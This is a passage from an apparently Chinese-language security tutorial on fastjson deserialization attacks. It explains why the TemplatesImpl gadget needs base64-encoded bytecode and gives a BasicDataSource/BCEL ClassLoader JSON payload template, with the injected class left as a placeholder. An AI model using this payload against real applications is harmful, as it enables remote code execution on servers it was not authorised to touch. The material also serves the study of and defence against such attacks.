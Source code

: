 ```
private static String ABSTRACT_TRANSLET
        = "com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet";

if (superClass.getName().equals(ABSTRACT_TRANSLET)) `{`
    _transletIndex = i;
`}`
```

为什么`_bytescode`要对字节码进行base64编码？反序列化的过程中会调用很多类，在经过该类`com.alibaba.fastjson.serializer.ObjectArrayCodec.deserialze`的时候，会对字段进行一次base64的解码

```
......        
if (token == JSONToken.LITERAL_STRING || token == JSONToken.HEX) `{`
    byte[] bytes = lexer.bytesValue();
    ......
```

跟入`lexer.bytesValue()`方法，看到`decodeBase64`

```
public byte[] bytesValue() `{`
    ......
    // base64解码
    return IOUtils.decodeBase64(buf, np + 1, sp);
`}`
```

总结：
- TemplatesImpl类是Java反序列化界比较常用的类，更容易理解和上手
- 需要开启`Feature.SupportNonPublicField`，实战中不适用


## BasicDataSource

```
String payload = "`{`\n" +
    "    \"name\":\n" +
    "    `{`\n" +
    "        \"@type\" : \"java.lang.Class\",\n" +
    "        \"val\"   : \"org.apache.tomcat.dbcp.dbcp2.BasicDataSource\"\n" +
    "    `}`,\n" +
    "    \"x\" : `{`\n" +
    "        \"name\": `{`\n" +
    "            \"@type\" : \"java.lang.Class\",\n" +
    "            \"val\"   : \"com.sun.org.apache.bcel.internal.util.ClassLoader\"\n" +
    "        `}`,\n" +
    "        \"y\": `{`\n" +
    "            \"@type\":\"com.alibaba.fastjson.JSONObject\",\n" +
    "            \"c\": `{`\n" +
    "                \"@type\":\"org.apache.tomcat.dbcp.dbcp2.BasicDataSource\",\n" +
    "                \"driverClassLoader\": `{`\n" +
    "                    \"@type\" : \"com.sun.org.apache.bcel.internal.util.ClassLoader\"\n" +
    "                `}`,\n" +
    "                \"driverClassName\":\"!!!Payload!!!\",\n" +
    "\n" +
    "                     \"$ref\": \"$.x.y.c.connection\"\n" +
    "\n" +
    "            `}`\n" +
    "        `}`\n" +
    "    `}`\n" +
    "`}`";
JSON.parse(payload);
```
